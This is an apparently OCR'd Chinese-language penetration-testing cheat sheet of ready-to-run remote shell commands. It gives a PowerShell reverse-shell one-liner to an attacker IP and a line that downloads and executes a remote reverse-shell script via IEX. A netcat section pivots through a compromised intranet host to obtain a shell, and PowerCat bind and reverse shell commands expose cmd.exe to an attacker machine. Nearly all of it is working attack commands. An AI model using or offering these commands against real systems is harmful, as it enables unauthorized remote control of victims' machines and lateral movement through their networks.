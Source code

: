 ```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.1.3.40',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
# 或
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')

```

**内网代理**
```bash
# 场景：通过拿到的一台能访问的内网主机1，作为跳板(vps不能直接访问内网主机2)，拿到另外一台内网主机1才能访问到的内网主机2的shell
# vps监听
nc -lvp 3333
# 内网主机2执行
nc -lvp 3333 -e /bin/bash
# 内网主机1(边界服务器)执行
nc -v vps_ip -c "nc -v 内网主机2_ip 3333"

```




#### 3.PowerCat
>可以说是nc的powershell版本

下载地址：https://github.com/besimorhino/powercat.git

###### 用法
```bash
# 导入模块
Import-Moudle .\powercat.ps1
```

既然说是nc的powershell版本，那就可以与nc配合连接:
1.通过nc正向连接powercat
```bash
# 目标机器用powercat监听
powercat -l -p 8080 cmd.exe -v
# 攻击机连接
nc 192.168.56.130 8080 -vv

#参数
-l    # 监听
-p    # 指定端口
-c    # 指定要启动进程的名字
-v    # 显示详情
```

2.通过nc反向连接powercat
```bash
# 攻击机器监听
nc -lvv -p 8888
# 目标机器用powercat连接我们
powercat -c 192.168.56.129 -p 8888 -v -e cmd.exe
```
